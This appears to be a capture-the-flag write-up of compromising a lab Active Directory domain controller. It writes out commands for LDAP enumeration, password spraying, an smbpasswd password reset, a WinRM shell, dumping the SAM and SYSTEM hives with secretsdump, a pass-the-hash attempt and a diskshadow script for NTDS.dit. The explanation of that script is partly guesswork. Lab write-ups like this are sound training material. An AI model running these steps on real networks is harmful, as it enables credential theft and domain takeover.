## Port Scanning

An initial Rustscan scan reveals:

```bash
rustscan -a 10.10.115.109 --ulimit 5000 --
```



A more detailed Nmap scan shows the following information:

```bash
nmap -Pn -A 10.10.115.109
```



Common ports for an Active Directory environment, and specifically a Domain Controller are open, including Kerberos, DNS, LDAP, SMB and RDP. Adding the hostname to the /etc/hosts so a DNS name can be used going forward:


## LDAP Enumeration

Searching HackTricks for LDAP enumeration, null credentials can be checked if they are valid/allowed using `ldapsearch`:

```bash
ldapsearch -x -H ldap://10.10.115.109 -D '' -w '' -b "DC=baby,DC=vl"
```



This returns a large amount of information (~700 lines). Reading the output, certain user information is returned:


Using filtering techniques, it's possible to enumerate certain users via an LDAP query:

```bash
ldapsearch -x -b "DC=baby,DC=vl" "(objectClass=user)" -H ldap://10.10.115.109
```



Tons of information is returned for the various users, but most importantly it returns the userPrincipalName which contains an email and exposes the email format (`firstname.lastname@baby.vl`).

Filtering further, it's possible to grab all these emails and store them in a text file for the future:

```bash
ldapsearch -x -b "DC=baby,DC=vl" "(objectClass=user)" -H ldap://10.10.115.109 | grep "@baby.vl"
```



Before proceeding, I like to check the descriptions of users for any interesting information - as you can see, some entries for groups and users include descriptions:



Grep can filter for these descriptions on all LDAP objects

```bash
ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.115.109 | grep description
```



There appears to be a description stating that initial passwords are set to a certain value. To check who this belonged to, grep is used:

```bash
ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.115.109 | grep "[PASSWORD]" -A 5 -B 5
```



Teresa Bell has this password in her description. Additionally, it appears she may be part of an organizational unit (OU) of "it" which could related to the IT department which corresponds to the initial password description for new users.

## Password Spraying

Testing if this password works via SMB by using NetExec results in no success:

```bash
nxc smb 10.10.115.109 -u teresa.bell -p '[PASSWORD]'
```



It fails. Attempting to use the usernames extracted earlier with this password in a spraying attack results in the following:

```bash
nxc smb 10.10.115.109 -u users.txt -p '[PASSWORD]'
```



No success. I got stuck here for a long time. Eventually, I looked back through the full output of the initial `ldapsearch` command and found that I had missed some users such as "Carole Robinson" as they had no email.

Using a filter for the "dn" or Distinguished Names reveals these new users:

```bash
ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.115.109 | grep "dn"
```



Adding these new users to the users.txt file and attempting a second password spraying attack results in:



Looking closely, it appears Caroline Robinson requires a password change, likely from the initial password that was set. 
## Password Reset - RDP

There appears to be multiple ways to reset a password remotely as indicated by this [blog](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/) including via OWA, RDP and SMB.

Since OWA is not open it can be ignored. However, RDP does appear to be open. In order to reset a password via RDP, it requires RDP without NLA enforced - Nmap can be used to check this:

```bash
nmap 10.10.115.109 -p3389 --script rdp-enum-encryption
```



Since no line with `SSL: SUCCESS` is present, it indicates that NLA is enforced, indicating that reset may not work via RDP, but it can be attempted anyways:


## Password Reset - SMB

SMB can also be used to reset the password using `smbpasswd` - however it does require anonymous access to the `IPC$` share. If so, the password can be reset:

```bash
smbpasswd -U BABY/caroline.robinson -r 10.10.115.109
```




**Warning!** The new password was changed to Password123!


NetExec is ran again with the new password as a sanity check:

```bash
nxc smb 10.10.115.109 -u caroline.robinson -p '[PASSWORD]'
```


## Share Enumeration

Shares can also be enumerated now that valid credentials are present:

```bash
nxc smb 10.10.115.109 -u 'caroline.robinson' -p '[PASSWORD]' --shares
```


## WinRM

Nothing stands out. Since credentials are already present, WinRM (port 5985) can be tested to gain a potential shell:

```bash
nxc winrm 10.10.115.109 -u 'caroline.robinson' -p '[PASSWORD]'
```



Evil-WinRM can be used to obtain a shell:

```bash
evil-winrm -i 10.10.115.109 -u 'caroline.robinson' -p '[PASSWORD]'
```


## WinPEAS - AV Error

Attempting to download automation tools like winPEAS results in an AV error:


## Manual Post-Exploitation Enumeration

Performing manual enumeration shows the following results for the `whoami /all` command:



Since SeBackupPrivilege is present, it's possible to read all the files on the system for backup purposes, including sensitive files such as the SAM database as discussed [here](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#SeBackupPrivilege).
## Privilege Escalation w/ SeBackup Privilege

To exploit, a temp directory is made and the SAM and SYSTEM hives are copied and then downloaded:

```bash
reg save hklm\sam C:\Temp\SAM
reg save hklm\system C:\Temp\SYSTEM
```



Secretsdump can be ran to obtain the NTLM hashes stored inside the SAM:

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```



Hashcat was attempted but results in no hash cracked for the Administrator account:



NetExec can be used with hashes however:

```bash
nxc smb 10.10.115.109 -u 'Administrator' -H [HASH]
```



It fails however as it is a local administrator hash and the machine is a Domain Controller, which is not a valid combination - you cannot use the local admin hash on a DC. 
## Dumping the NTDS.dit

[Further research found here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) and [here](https://github.com/PiyushThePal/SeBackup-Privilege) shows that you can generate the NTDS.dit file if you have the SeBackupPrivilege by using `diskshadow` by first creating the following script and uploading it:

```bash
set metadata C:\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

1. `set metadata C:\Windows\Temp\meta.cabX`: This command is setting metadata for the backup operation. It seems to be specifying the location where metadata related to the backup will be stored, in this case, `C:\Temp\meta.cabX`.
2. `set context clientaccessibleX`: This command is setting the context for the backup operation. It seems to be specifying that the backup should be accessible by the client.
3. `set context persistentX`: This command is setting another context for the backup operation. It could be specifying that the backup should be persistent, meaning it should remain available or stored for a certain period.
4. `begin backupX`: This command is initiating the backup operation.
5. `add volume C: alias cdriveX`: This command is adding the volume `C:` to the backup operation with an alias `cdriveX`. This means that the contents of the `C:` drive will be included in the backup. 
6. `createX`: This command is creating something related to the backup operation. It’s not entirely clear what it’s creating without more context or additional information about the script.
7. `expose %cdrive% E:X`: This command seems to be exposing the contents of the `C:` drive, which was added to the backup operation with the alias `cdriveX`, to a location specified by `%cdrive%` on drive `E:`. This might involve mounting the backup or making it accessible in some way.
8. `end backupX`: This command is ending the backup operation.

Then, run it:

```bash
diskshadow /s script.txt
```

